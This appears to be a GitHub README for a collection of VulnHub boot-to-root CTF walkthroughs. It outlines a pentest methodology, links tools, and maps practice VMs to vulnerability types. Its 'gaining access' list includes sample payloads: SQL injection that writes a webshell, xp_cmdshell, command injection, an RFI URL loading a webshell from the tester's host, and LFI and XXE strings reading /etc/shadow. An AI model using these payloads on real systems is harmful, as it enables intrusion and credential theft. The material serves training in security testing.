 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for fun. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


### >> Classic pentest methodology to do a Boot2root CTF <<

### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
```
##### ***Useful tools:*** [Nmap](https://nmap.org/) (network port scanner and (NSE) scripts), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing tool), [Nikto](https://www.kali.org/tools/nikto/) (Web vulnerability scanner), [Dirb](https://www.kali.org/tools/dirb/) & [Gobuster](https://github.com/OJ/gobuster)  (URL bruteforcers), [Kali various tools](https://www.kali.org/tools/), various scripts (source:Github/your owns).*
-------------------

### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
```
##### ***Useful tools:*** various scripts, webshells, and reverse shells (source:Github/your owns), [Kali various tools](https://www.kali.org/tools/), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing), [Sqlmap](https://github.com/sqlmapproject/sqlmap) (automatic SQL injection & DB takeover tool), [kadimus](https://github.com/P0cL4bs/kadimus) (LFI exploit tool), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Impacket framework](https://github.com/SecureAuthCorp/impacket) & [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Windows environment pentesting tools), [Hydra](https://www.kali.org/tools/hydra/) / [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) / [ncrack](https://nmap.org/ncrack/) (password bruteforce tools),  [DBvis/DbVisualizer](https://www.dbvis.com/download/) (universal database tool).
-------------------------------

### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
```
##### ***Useful tools:*** various scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) (Linux enumeration scripts), [LinPEAS & WinPEAS](https://github.com/carlospolop/PEASS-ng) (Linux & Windows enumeration scripts), [Linux Exploit suggester](https://github.com/mzet-/linux-exploit-suggester) / [Linux Exploit suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (scripts to assess Linux kernel security hardening and exposure on publicly known exploits), [PowerUp PowerShell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) & [SharpUP](https://github.com/GhostPack/SharpUp) (Windows privilege escalation tools), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), ...
------------------------------

### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg and neo-reGeorg client/webshell)
5. Pivoting with SOCAT / Ligolo / RDP / VNC / ...
6. ...
```
##### ***Useful tools:*** [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Rpivot](https://github.com/klsecservices/rpivot) (reverse socks 4 proxy for penetration tests), [SOCAT](http://www.dest-unreach.org/socat/), [Ligolo](https://github.com/sysdream/ligolo), [Tunna](https://github.com/SECFORCE/Tunna), [ReGeorg](https://github.com/kost/regeorg), [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg), ...
---------------------------------

### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | - | X | - | 
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | Pivoting technique |
